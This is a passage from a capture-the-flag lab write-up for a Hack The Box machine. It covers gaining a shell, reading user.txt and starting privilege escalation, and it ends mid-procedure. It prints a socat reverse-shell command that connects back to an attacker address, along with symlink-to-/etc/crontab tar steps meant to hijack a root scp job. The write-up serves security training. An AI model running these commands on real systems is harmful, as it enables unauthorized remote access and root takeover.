 {% include image.html image_alt="c414cb52.png" image_src="/3185267d-27f0-4823-bf4b-220b38ec9848/c414cb52.png" %}

Lo and behold, a shell!

{% include image.html image_alt="b033a8ca.png" image_src="/3185267d-27f0-4823-bf4b-220b38ec9848/b033a8ca.png" %}

Let's transfer a statically-compiled `socat` and use [it](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat) to run an upgraded reverse shell back.

```
./socat tcp-connect:10.10.x.x:4321 exec:sh,pty,stderr,setsid,sigint,sane &
```

{% include image.html image_alt="70113dea.png" image_src="/3185267d-27f0-4823-bf4b-220b38ec9848/ab8c8803.png" %}

Bam. There you have it.

### Getting `user.txt`

No surprise there. The file `user.txt` is at `qtc`'s home directory. However, it's void of any permissions.

{% include image.html image_alt="e74be6c0.png" image_src="/3185267d-27f0-4823-bf4b-220b38ec9848/e74be6c0.png" %}

This is easy to fix. I can generate a pair of SSH keys and use SSH to add read rights to it like so.

{% include image.html image_alt="e9b7ee4a.png" image_src="/3185267d-27f0-4823-bf4b-220b38ec9848/e9b7ee4a.png" %}

## Privilege Escalation

During enumeration of `qtc`'s account, I notice that for every minute someone or something is executing `scp` like so.

{% include image.html image_alt="8bf0e436.png" image_src="/3185267d-27f0-4823-bf4b-220b38ec9848/8bf0e436.png" %}

Looks like we need shuttle some kind of malicious payload into `/opt/fatty/tar/logs.tar`. :wink: Immediately I thought of [this](https://github.com/BuddhaLabs/PacketStorm-Exploits/blob/master/0101-exploits/tar-symlink.txt): GNU tar symlink vulnerability. Too bad it didn't work. Kudos to [IhsanSencan](https://www.hackthebox.eu/home/users/profile/100992) for the nudge to send in two `logs.tar` instead like this:

1. Create a symlink (`logs.tar`) to `/etc/crontab`


```
# ln -s /etc/crontab logs.tar
```


2. Create `logs1.tar` (1st run) with the symlink


```
# tar cvf logs1.tar logs.tar
# tar tvf logs1.tar
lrwxrwxrwx root/root         0 2020-02-17 16:24 logs.tar -> /etc/crontab
```
